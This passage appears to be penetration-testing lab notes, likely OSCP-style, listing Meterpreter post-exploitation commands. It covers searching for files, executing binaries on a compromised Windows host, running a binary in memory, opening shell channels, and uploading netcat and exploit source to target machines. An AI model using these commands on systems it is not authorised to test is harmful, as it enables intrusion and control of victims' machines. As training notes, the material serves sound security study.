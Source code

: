     search -f rs*.asp
    # execute exe file
    execute -f c:\\Inetpub\\Scripts\\wpc.exe
    # in-memory execution of remote binary
    execute -H -i -c -m -d calc.exe -f /root/usr/share/windows-binaries/whoami.exe

### channels

```
# create command line channel 
shell
# terminate current channel
^C 
# background current channel
^Z
# list active channels
m> channel -l
# interact with the channel
m> channel -i <id>
```

### upload/download files

```
# Windows
upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec
upload /root/HACKING/192.168.31.234/wes.exe "C:\\Documents and Settings\\Administrator\\wes.exe"

download c:\\Windows\\system32\\calc.exe /tmp/calc.exe

# UNIX
upload /root/HACKING/192.168.31.216/e.c /tmp/e.c
```

